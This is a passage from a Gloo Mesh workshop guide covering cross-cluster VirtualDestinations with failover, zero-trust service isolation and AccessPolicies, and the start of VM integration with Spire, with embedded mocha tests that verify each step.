At that point, we want Istio to pick up the new intermediate CA and start using that for its workloads. To do that Gloo Mesh creates a Kubernetes secret called `cacerts` in the `istio-system` namespace.

You can have a look at the Istio documentation [here](https://istio.io/latest/docs/tasks/security/cert-management/plugin-ca-cert) if you want to get more information about this process.


In recent versions of Istio, the control plane is able to pick up this new cert without any restart, but we would need to wait for the different Pods to renew their certificates (which happens every hour by default).

To accelerate this process, we can bounce the Pods of the workloads that need to renew their certificates.

<!--bash

-->

```bash
bash ./data/steps/root-trust-policy/restart-istio-pods.sh ${CLUSTER1}
bash ./data/steps/root-trust-policy/restart-istio-pods.sh ${CLUSTER2}
```


<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("cacerts secrets have been created", () => {
    const clusters = [process.env.CLUSTER1, process.env.CLUSTER2];
    clusters.forEach(cluster => {
        it('Secret is present in ' + cluster, () => helpers.k8sObjectIsPresent({ context: cluster, namespace: "istio-system", k8sType: "secret", k8sObj: "cacerts" }));
    });
});
EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/root-trust-policy/tests/cacert-secrets-created.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=150 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->


<!--bash
printf "Waiting for all pods needed for the test..."
printf "\n"
kubectl --context ${CLUSTER1} get deploy -n bookinfo-backends -oname|xargs -I {} kubectl --context ${CLUSTER1} rollout status -n bookinfo-backends {}
kubectl --context ${CLUSTER2} get deploy -n bookinfo-backends -oname|xargs -I {} kubectl --context ${CLUSTER2} rollout status -n bookinfo-backends {}
printf "\n"
-->
<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
var chai = require('chai');
var expect = chai.expect;
chai.use(chaiExec);

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 1000);
  } else {
    done();
  }
});

const testerPodName = "tester-root-trust-policy";
before(function (done) {
  chaiExec(`kubectl --context ${process.env.CLUSTER1} -n gloo-mesh run --image=alpine/openssl:3.3.1 ${testerPodName} --command --wait=false -- sleep infinity`);
  chaiExec(`kubectl --context ${process.env.CLUSTER2} -n gloo-mesh run --image=alpine/openssl:3.3.1 ${testerPodName} --command --wait=false -- sleep infinity`);
  done();
});
after(function (done) {
  chaiExec(`kubectl --context ${process.env.CLUSTER1} -n gloo-mesh delete pod ${testerPodName} --wait=false`);
  chaiExec(`kubectl --context ${process.env.CLUSTER2} -n gloo-mesh delete pod ${testerPodName} --wait=false`);
  done();
});

describe("Certificate issued by Gloo Mesh", () => {
  var expectedOutput = "i:O=gloo-mesh";

  it('Gloo mesh is the organization for ' + process.env.CLUSTER1 + ' certificate', () => {
    let cli = chaiExec(`kubectl --context ${process.env.CLUSTER1} exec -t -n gloo-mesh ${testerPodName} -- openssl s_client -showcerts -connect ratings.bookinfo-backends:9080 -alpn istio`);

    expect(cli).stdout.to.contain(expectedOutput);
    expect(cli).stderr.not.to.be.empty;
  });


  it('Gloo mesh is the organization for ' + process.env.CLUSTER2 + ' certificate', () => {
    let cli = chaiExec(`kubectl --context ${process.env.CLUSTER2} exec -t -n gloo-mesh ${testerPodName} -- openssl s_client -showcerts -connect ratings.bookinfo-backends:9080 -alpn istio`);

    expect(cli).stdout.to.contain(expectedOutput);
    expect(cli).stderr.not.to.be.empty;
  });

});
EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/root-trust-policy/tests/certificate-issued-by-gloo-mesh.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->


## Lab 22 - Leverage Virtual Destinations for east west communications <a name="lab-22---leverage-virtual-destinations-for-east-west-communications-"></a>

We can create a Virtual Destination which will be composed of the `reviews` services running in both clusters.

Let's create this Virtual Destination.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: VirtualDestination
metadata:
  name: reviews
  namespace: bookinfo-backends
spec:
  hosts:
  - reviews.global
  services:
  - namespace: bookinfo-backends
    labels:
      app: reviews
  ports:
    - number: 9080
      protocol: HTTP
EOF
```

You can now send requests from the `productpage` service to the host `reviews.global`:

```bash
kubectl --context $CLUSTER1 -n bookinfo-frontends exec deploy/productpage-v1 -- python -c "import requests; r = requests.get('http://reviews.global:9080/reviews/0'); print(r.text)"
```

You should randomly get responses from `cluster2`:

```,nocopy
{"id": "0","podname": "reviews-v1-56854d7c57-j5dmg","clustername": "cluster2","reviews": [{  "reviewer": "Reviewer1",  "text": "An extremely entertaining play by Shakespeare. The slapstick humour is refreshing!"},{  "reviewer": "Reviewer2",  "text": "Absolutely fun and entertaining. The play lacks thematic depth when compared to other plays by Shakespeare."}]}
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("The productpage service should get responses from cluster2", () => {
  const podName = helpers.getOutputForCommand({ command: "kubectl -n bookinfo-frontends get pods -l app=productpage -o jsonpath='{.items[0].metadata.name}' --context " + process.env.CLUSTER1 }).replaceAll("'", "");
  const command = "kubectl -n bookinfo-frontends exec " + podName + " --context " + process.env.CLUSTER1 + " -- python -c \"import requests; r = requests.get('http://reviews.global:9080/reviews/0'); print(r.text)\"";
  it('Got a response from cluster1', () => helpers.genericCommand({ command: command, responseContains: "cluster1" }));
});
EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/apps/bookinfo/east-west-virtual-destination/tests/reviews-from-cluster1.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->
<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("The productpage service should get responses from cluster2", () => {
  const podName = helpers.getOutputForCommand({ command: "kubectl -n bookinfo-frontends get pods -l app=productpage -o jsonpath='{.items[0].metadata.name}' --context " + process.env.CLUSTER1 }).replaceAll("'", "");
  const command = "kubectl -n bookinfo-frontends exec " + podName + " --context " + process.env.CLUSTER1 + " -- python -c \"import requests; r = requests.get('http://reviews.global:9080/reviews/0'); print(r.text)\"";
  it('Got a response from cluster2', () => helpers.genericCommand({ command: command, responseContains: "cluster2" }));
});
EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/apps/bookinfo/east-west-virtual-destination/tests/reviews-from-cluster2.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->

It's nice, but you generally want to direct the traffic to the local services if they're available and failover to the remote cluster only when they're not.

In order to do that we need to create 2 other policies.

The first one is a `FailoverPolicy`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: resilience.policy.gloo.solo.io/v2
kind: FailoverPolicy
metadata:
  name: failover
  namespace: bookinfo-backends
spec:
  applyToDestinations:
  - kind: VIRTUAL_DESTINATION
    selector:
      labels:
        failover: "true"
  config:
    localityMappings: []
EOF
```

It will update the Istio `DestinationRule` to enable failover.

Note that failover is enabled by default, so creating this `FailoverPolicy` is optional. By default, it will try to failover to the same zone, then same region and finally anywhere. A `FailoverPolicy` is generally used when you want to change this default behavior. For example, if you have many regions, you may want to failover only to a specific region.

The second one is an `OutlierDetectionPolicy`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: resilience.policy.gloo.solo.io/v2
kind: OutlierDetectionPolicy
metadata:
  name: outlier-detection
  namespace: bookinfo-backends
spec:
  applyToDestinations:
  - kind: VIRTUAL_DESTINATION
    selector:
      labels:
        failover: "true"
  config:
    consecutiveErrors: 2
    interval: 5s
    baseEjectionTime: 30s
    maxEjectionPercent: 100
EOF
```

It will update the Istio `DestinationRule` to specify how/when we want the failover to happen.

As you can see, both policies will be applied to `VirtualDestination` objects that have the label `failover` set to `"true"`.

So we need to update the `VirtualDestination`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: VirtualDestination
metadata:
  name: reviews
  namespace: bookinfo-backends
  labels:
    failover: "true"
spec:
  hosts:
  - reviews.global
  services:
  - namespace: bookinfo-backends
    labels:
      app: reviews
  ports:
    - number: 9080
      protocol: HTTP
EOF
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("The productpage service should get responses from cluster2", () => {
  const podName = helpers.getOutputForCommand({ command: "kubectl -n bookinfo-frontends get pods -l app=productpage -o jsonpath='{.items[0].metadata.name}' --context " + process.env.CLUSTER1 }).replaceAll("'", "");
  const command = "kubectl -n bookinfo-frontends exec " + podName + " --context " + process.env.CLUSTER1 + " -- python -c \"import requests; r = requests.get('http://reviews.global:9080/reviews/0'); print(r.text)\"";
  it('Got a response from cluster1', () => helpers.genericCommand({ command: command, responseContains: "cluster1" }));
});
EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/apps/bookinfo/east-west-virtual-destination/tests/reviews-from-cluster1.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->

Now, if you try to access the `reviews` service, you should only get responses from `cluster1`.

```bash
kubectl --context $CLUSTER1 -n bookinfo-frontends exec deploy/productpage-v1 -- python -c "import requests; r = requests.get('http://reviews.global:9080/reviews/0'); print(r.text)"
```

If the `reviews` service doesn't exist on the first cluster, the `productpage` service of this cluster will automatically use the `reviews` service running on the other cluster.

Let's try this:

```bash
kubectl --context ${CLUSTER1} -n bookinfo-backends scale deploy/reviews-v1 --replicas=0
kubectl --context ${CLUSTER1} -n bookinfo-backends scale deploy/reviews-v2 --replicas=0
kubectl --context ${CLUSTER1} -n bookinfo-backends wait --for=jsonpath='{.spec.replicas}'=0 deploy/reviews-v1
kubectl --context ${CLUSTER1} -n bookinfo-backends wait --for=jsonpath='{.spec.replicas}'=0 deploy/reviews-v2
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("The productpage service should get responses from cluster2", () => {
  const podName = helpers.getOutputForCommand({ command: "kubectl -n bookinfo-frontends get pods -l app=productpage -o jsonpath='{.items[0].metadata.name}' --context " + process.env.CLUSTER1 }).replaceAll("'", "");
  const command = "kubectl -n bookinfo-frontends exec " + podName + " --context " + process.env.CLUSTER1 + " -- python -c \"import requests; r = requests.get('http://reviews.global:9080/reviews/0'); print(r.text)\"";
  it('Got a response from cluster2', () => helpers.genericCommand({ command: command, responseContains: "cluster2" }));
});
EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/apps/bookinfo/east-west-virtual-destination/tests/reviews-from-cluster2.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->

You can still access the reviews application even if the `reviews` service isn't running in `cluster1` anymore.

```bash
kubectl --context $CLUSTER1 -n bookinfo-frontends exec deploy/productpage-v1 -- python -c "import requests; r = requests.get('http://reviews.global:9080/reviews/0'); print(r.text)"
```

Let's restart the `reviews` services:

```bash
kubectl --context ${CLUSTER1} -n bookinfo-backends scale deploy/reviews-v1 --replicas=1
kubectl --context ${CLUSTER1} -n bookinfo-backends scale deploy/reviews-v2 --replicas=1
kubectl --context ${CLUSTER1} -n bookinfo-backends wait --for=jsonpath='{.status.readyReplicas}'=1 deploy/reviews-v1
kubectl --context ${CLUSTER1} -n bookinfo-backends wait --for=jsonpath='{.status.readyReplicas}'=1 deploy/reviews-v2
```

But what happens if the `reviews` services is running, but is unavailable ?

Let's try!

The following commands will patch the deployments to run a new version which won't respond to the incoming requests.

```bash
kubectl --context ${CLUSTER1} -n bookinfo-backends patch deploy reviews-v1 --patch '{"spec": {"template": {"spec": {"containers": [{"name": "reviews","command": ["sleep", "20h"]}]}}}}'
kubectl --context ${CLUSTER1} -n bookinfo-backends patch deploy reviews-v2 --patch '{"spec": {"template": {"spec": {"containers": [{"name": "reviews","command": ["sleep", "20h"]}]}}}}'
kubectl --context ${CLUSTER1} -n bookinfo-backends rollout status deploy/reviews-v1
kubectl --context ${CLUSTER1} -n bookinfo-backends rollout status deploy/reviews-v2
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("The productpage service should get responses from cluster2", () => {
  const podName = helpers.getOutputForCommand({ command: "kubectl -n bookinfo-frontends get pods -l app=productpage -o jsonpath='{.items[0].metadata.name}' --context " + process.env.CLUSTER1 }).replaceAll("'", "");
  const command = "kubectl -n bookinfo-frontends exec " + podName + " --context " + process.env.CLUSTER1 + " -- python -c \"import requests; r = requests.get('http://reviews.global:9080/reviews/0'); print(r.text)\"";
  it('Got a response from cluster2', () => helpers.genericCommand({ command: command, responseContains: "cluster2" }));
});
EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/apps/bookinfo/east-west-virtual-destination/tests/reviews-from-cluster2.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->

You can still access the bookinfo application.

```bash
kubectl --context $CLUSTER1 -n bookinfo-frontends exec deploy/productpage-v1 -- python -c "import requests; r = requests.get('http://reviews.global:9080/reviews/0'); print(r.text)"
```

Run the following commands to make the `reviews` service available again in the first cluster

```bash
kubectl --context ${CLUSTER1} -n bookinfo-backends patch deployment reviews-v1  --type json   -p '[{"op": "remove", "path": "/spec/template/spec/containers/0/command"}]'
kubectl --context ${CLUSTER1} -n bookinfo-backends patch deployment reviews-v2  --type json   -p '[{"op": "remove", "path": "/spec/template/spec/containers/0/command"}]'
kubectl --context ${CLUSTER1} -n bookinfo-backends rollout status deploy/reviews-v1
kubectl --context ${CLUSTER1} -n bookinfo-backends rollout status deploy/reviews-v2
```


Let's delete the different objects we've created:

```bash
kubectl --context ${CLUSTER1} -n bookinfo-backends delete virtualdestination reviews
kubectl --context ${CLUSTER1} -n bookinfo-backends delete failoverpolicy failover
kubectl --context ${CLUSTER1} -n bookinfo-backends delete outlierdetectionpolicy outlier-detection
```


## Lab 23 - Zero trust <a name="lab-23---zero-trust-"></a>
[](https://youtu.be/BiaBlUaplEs "Video Link")

In the previous step, we federated multiple meshes and established a shared root CA for a shared identity domain.

All the communications between Pods in the mesh are now encrypted by default, but:

- communications between services that are in the mesh and others which aren't in the mesh are still allowed and not encrypted
- all the services can talk together

Let's validate this.

<!--bash
(timeout 2s kubectl --context ${CLUSTER1} -n httpbin rollout status deploy/in-mesh) || (kubectl --context ${CLUSTER1} -n httpbin rollout restart deploy/in-mesh && kubectl --context ${CLUSTER1} -n httpbin rollout status deploy/in-mesh)
-->
Run the following commands to initiate a communication from a service which isn't in the mesh to a service which is in the mesh:

```
pod=$(kubectl --context ${CLUSTER1} -n httpbin get pods -l app=not-in-mesh -o jsonpath='{.items[0].metadata.name}')
kubectl --context ${CLUSTER1} -n httpbin debug -i -q ${pod} --image=curlimages/curl -- curl -s -o /dev/null -w "%{http_code}" http://reviews.bookinfo-backends.svc.cluster.local:9080/reviews/0
```

You should get a `200` response code which confirm that the communication is currently allowed.

<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;
const helpers = require('./tests/chai-exec');
describe("Communication allowed", () => {
  it("Response code should be 200", () => {
    const podName = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n httpbin get pods -l app=not-in-mesh -o jsonpath='{.items[0].metadata.name}'" }).replaceAll("'", "");
    const command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n httpbin debug -i -q " + podName + " --image=curlimages/curl -- curl -s -o /dev/null -w \"%{http_code}\" http://reviews.bookinfo-backends:9080/reviews/0" }).replaceAll("'", "");
    expect(command).to.contain("200");
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/apps/httpbin/zero-trust/tests/not-in-mesh-to-in-mesh-allowed.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->

Run the following commands to initiate a communication from a service which is in the mesh to another service which is in the mesh:

```
pod=$(kubectl --context ${CLUSTER1} -n httpbin get pods -l app=in-mesh -o jsonpath='{.items[0].metadata.name}')
kubectl --context ${CLUSTER1} -n httpbin debug -i -q ${pod} --image=curlimages/curl -- curl -s -o /dev/null -w "%{http_code}" http://reviews.bookinfo-backends.svc.cluster.local:9080/reviews/0
```

<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;
const helpers = require('./tests/chai-exec');
describe("Communication allowed", () => {
  it("Response code should be 200", () => {
    const podName = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n httpbin get pods -l app=in-mesh -o jsonpath='{.items[0].metadata.name}'" }).replaceAll("'", "");
    const command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n httpbin debug -i -q " + podName + " --image=curlimages/curl -- curl -s -o /dev/null -w \"%{http_code}\" http://reviews.bookinfo-backends:9080/reviews/0" }).replaceAll("'", "");
    expect(command).to.contain("200");
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/apps/httpbin/zero-trust/tests/in-mesh-to-in-mesh-allowed.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->

You should get a `200` response code again.

To enfore a zero trust policy, it shouldn't be the case.

We'll leverage the Gloo Mesh workspaces to get to a state where:

- communications between services which are in the mesh and others which aren't in the mesh aren't allowed anymore
- communications between services in the mesh are allowed only when services are in the same workspace or when their workspaces have import/export rules.

The Bookinfo team must update its `WorkspaceSettings` Kubernetes object to enable service isolation.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: WorkspaceSettings
metadata:
  name: bookinfo
  namespace: bookinfo-frontends
spec:
  importFrom:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
  exportTo:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
      labels:
        app: productpage
    - kind: SERVICE
      labels:
        app: reviews
    - kind: SERVICE
      labels:
        app: ratings
    - kind: ALL
      labels:
        expose: "true"
  options:
    serviceIsolation:
      enabled: true
      trimProxyConfig: true
EOF
```

When service isolation is enabled, Gloo Mesh creates the corresponding Istio `AuthorizationPolicy` and `PeerAuthentication` objects to enforce zero trust.

When `trimProxyConfig` is set to `true`, Gloo Mesh also creates the corresponding Istio `Sidecar` objects to program the sidecar proxies to only know how to talk to the authorized services.

If you refresh the browser, you'll see that the bookinfo application is still exposed and working correctly.

Run the following commands to initiate a communication from a service which isn't in the mesh to a service which is in the mesh:

```
pod=$(kubectl --context ${CLUSTER1} -n httpbin get pods -l app=not-in-mesh -o jsonpath='{.items[0].metadata.name}')
kubectl --context ${CLUSTER1} -n httpbin debug -i -q ${pod} --image=curlimages/curl -- curl -s -o /dev/null -w "%{http_code}" http://reviews.bookinfo-backends.svc.cluster.local:9080/reviews/0
```

You shouldn't get a `200` response code, which means that the communication isn't allowed.

<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;
const helpers = require('./tests/chai-exec');
describe("Communication not allowed", () => {
  it("Response code shouldn't be 200", () => {
    const podName = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n httpbin get pods -l app=not-in-mesh -o jsonpath='{.items[0].metadata.name}'" }).replaceAll("'", "");
    const command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n httpbin debug -i -q " + podName + " --image=curlimages/curl -- curl -s -o /dev/null -w \"%{http_code}\" --max-time 3 http://reviews.bookinfo-backends:9080/reviews/0" }).replaceAll("'", "");
    expect(command).not.to.contain("200");
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/apps/httpbin/zero-trust/tests/not-in-mesh-to-in-mesh-not-allowed.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->


Run the following commands to initiate a communication from a service which is in the mesh to another service which is in the mesh:

```
pod=$(kubectl --context ${CLUSTER1} -n httpbin get pods -l app=in-mesh -o jsonpath='{.items[0].metadata.name}')
kubectl --context ${CLUSTER1} -n httpbin debug -i -q ${pod} --image=curlimages/curl -- curl -s -o /dev/null -w "%{http_code}" http://reviews.bookinfo-backends.svc.cluster.local:9080/reviews/0
```

<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;
const helpers = require('./tests/chai-exec');
describe("Communication not allowed", () => {
  it("Response code shouldn't be 200", () => {
    const podName = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n httpbin get pods -l app=in-mesh -o jsonpath='{.items[0].metadata.name}'" }).replaceAll("'", "");
    const command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n httpbin debug -i -q " + podName + " --image=curlimages/curl -- curl -s -o /dev/null -w \"%{http_code}\" --max-time 3 http://reviews.bookinfo-backends:9080/reviews/0" }).replaceAll("'", "");
    expect(command).not.to.contain("200");
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/apps/httpbin/zero-trust/tests/in-mesh-to-in-mesh-not-allowed.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->

You shouldn't get a `200` response code, which means that the communication isn't allowed.

You've see seen how Gloo Platform can help you to enforce a zero trust policy (at workspace level) with nearly no effort.

Now we are going to define some additional policies to achieve zero trust at service level.

We are going to define AccessPolicies from the point of view of a service producers. 

> I am owner of service A, which services needs to communicate with me?



Productpage app is the only service which is exposed to the internet, so we will create an `AccessPolicy` to allow the Istio Ingress Gateway to forward requests to the productpage service.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: AccessPolicy
metadata:
  name: allow-productpage
  namespace: bookinfo-frontends
spec:
  applyToDestinations:
  - selector:
      labels:
        app: productpage
  config:
    authz:
      allowedClients:
      - serviceAccountSelector:
          name: istio-ingressgateway-1-22-service-account
          namespace: istio-gateways
      - serviceAccountSelector:
          name: istio-eastwestgateway-1-22-service-account
          namespace: istio-gateways
EOF
```

Details and reviews are both used by the productpage service, so we will create an AccessPolicy to allow the productpage service to forward requests to the details and reviews services.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: AccessPolicy
metadata:
  name: allow-details-reviews
  namespace: bookinfo-frontends
spec:
  applyToDestinations:
  - selector:
      labels:
        app: details
  - selector:
      labels:
        app: reviews
  config:
    authz:
      allowedClients:
      - serviceAccountSelector:
          name: bookinfo-productpage
      allowedMethods:
      - GET
EOF
```

Note that this is a layer 7 policy because we only allow the `GET` method to be used by the productpage service.

Finally, we will create an AccessPolicy to allow the reviews service to forward requests to the ratings service.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: AccessPolicy
metadata:
  name: allow-ratings
  namespace: bookinfo-frontends
spec:
  applyToDestinations:
  - selector:
      labels:
        app: ratings
  config:
    authz:
      allowedClients:
      - serviceAccountSelector:
          name: bookinfo-reviews
EOF
```

Let's check that requests from `productpage` are denied/allowed properly:

```sh
pod=$(kubectl --context ${CLUSTER1} -n bookinfo-frontends get pods -l app=productpage -o jsonpath='{.items[0].metadata.name}')
echo "From productpage to details, should be allowed"
kubectl --context ${CLUSTER1} -n bookinfo-frontends debug -i -q ${pod} --image=curlimages/curl -- curl -s http://details.bookinfo-backends:9080/details/0 | jq

echo "From productpage to reviews with GET, should be allowed"
kubectl --context ${CLUSTER1} -n bookinfo-frontends debug -i -q ${pod} --image=curlimages/curl -- curl -s http://reviews.bookinfo-backends:9080/reviews/0 | jq

echo "From productpage to reviews with HEAD, should be denied"
kubectl --context ${CLUSTER1} -n bookinfo-frontends debug -i -q ${pod} --image=curlimages/curl -- curl -s -m5 http://reviews.bookinfo-backends:9080/reviews/0 -X HEAD

echo "From productpage to ratings, should be denied"
kubectl --context ${CLUSTER1} -n bookinfo-frontends debug -i -q ${pod} --image=curlimages/curl -- curl -s http://ratings.bookinfo-backends:9080/ratings/0
```

You shouldn't get a `200` response code for the last one, which means that the communication isn't allowed.
<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;
const helpers = require('./tests/chai-exec');

describe("Communication status", () => {

  it("Response code shouldn't be 200 accessing ratings", () => {
    const command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n bookinfo-frontends exec deploy/productpage-v1 -- python -c \"import requests; r = requests.get('http://ratings.bookinfo-backends:9080/ratings/0', timeout=3); print(r.status_code)\"" }).replaceAll("'", "");
    expect(command).not.to.contain("200");
  });

  it("Response code should be 200 accessing reviews with GET", () => {
    const command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n bookinfo-frontends exec deploy/productpage-v1 -- python -c \"import requests; r = requests.get('http://reviews.bookinfo-backends:9080/reviews/0'); print(r.status_code)\"" }).replaceAll("'", "");
    expect(command).to.contain("200");
  });

  it("Response code should be 403 accessing reviews with HEAD", () => {
    const command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n bookinfo-frontends exec deploy/productpage-v1 -- python -c \"import requests; r = requests.head('http://reviews.bookinfo-backends:9080/reviews/0'); print(r.status_code)\"" }).replaceAll("'", "");
    expect(command).to.contain("403");
  });

  it("Response code should be 200 accessing details", () => {
    const command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n bookinfo-frontends exec deploy/productpage-v1 -- python -c \"import requests; r = requests.get('http://details.bookinfo-backends:9080/details/0'); print(r.status_code)\"" }).replaceAll("'", "");
    expect(command).to.contain("200");
  });
});

EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/apps/httpbin/zero-trust/tests/bookinfo-access.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->


Let's rollback the change we've made in the `WorkspaceSettings` object:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: WorkspaceSettings
metadata:
  name: bookinfo
  namespace: bookinfo-frontends
spec:
  importFrom:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
  exportTo:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
      labels:
        app: productpage
    - kind: SERVICE
      labels:
        app: reviews
    - kind: SERVICE
      labels:
        app: ratings
    - kind: ALL
      labels:
        expose: "true"
EOF
```

and delete the `AccessPolicies`:

```bash
kubectl --context ${CLUSTER1} delete accesspolicies -n bookinfo-frontends --all
```


## Lab 24 - VM integration with Spire <a name="lab-24---vm-integration-with-spire-"></a>


Let's see how we can configure a VM to be part of the Mesh.

To make it easier (and more fun), we'll use a Docker container to simulate a VM.

We'll be updating the helm values to enable the Spire feature:

```bash
helm upgrade --install gloo-platform-crds gloo-platform-crds \
  --repo https://storage.googleapis.com/gloo-platform/helm-charts \
  --namespace gloo-mesh \
  --kube-context ${MGMT} \
  --set featureGates.ExternalWorkloads=true \
  --version 2.6.4 \
  --reuse-values \
  -f -<<EOF
featureGates:
  ExternalWorkloads: true
EOF

helm upgrade gloo-platform gloo-platform \
  --repo https://storage.googleapis.com/gloo-platform/helm-charts \
  --namespace gloo-mesh \
  --kube-context ${MGMT} \
  --version 2.6.4 \
  --reuse-values \
  -f -<<EOF
featureGates:
  ExternalWorkloads: true
prometheus:
  skipAutoMigration: true
EOF

helm upgrade --install gloo-platform-crds gloo-platform-crds \
  --repo https://storage.googleapis.com/gloo-platform/helm-charts \
  --namespace gloo-mesh \
  --kube-context ${CLUSTER1} \
  --version 2.6.4 \
  --reuse-values \
  -f -<<EOF
featureGates:
  ExternalWorkloads: true
EOF

helm upgrade gloo-platform gloo-platform \
  --repo https://storage.googleapis.com/gloo-platform/helm-charts \
  --namespace gloo-mesh \
  --kube-context ${CLUSTER1} \
  --version 2.6.4 \
  --reuse-values \
  -f -<<EOF
glooSpireServer:
  enabled: true
  controller:
    verbose: true
  server:
    trustDomain: cluster1
postgresql:
  enabled: true
  global:
    postgresql:
      auth:
        database: spire
        password: gloomesh
        username: spire
telemetryCollectorCustomization:
  pipelines:
